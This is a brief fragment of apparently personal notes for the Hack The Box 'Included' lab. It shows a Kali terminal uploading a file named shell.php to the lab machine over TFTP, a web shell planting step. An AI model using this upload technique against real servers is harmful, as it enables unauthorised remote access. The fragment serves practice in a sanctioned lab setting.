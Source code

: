 ![](Maszyny/Linux/Included/Pasted%20image%2020210807184651.png)

-(kali kali-os)-[/htb/included]
-$ tftp 10.10.10.55
tftp> put shell.php
Sent 9465 bytes in 1.2 seconds
tftp>
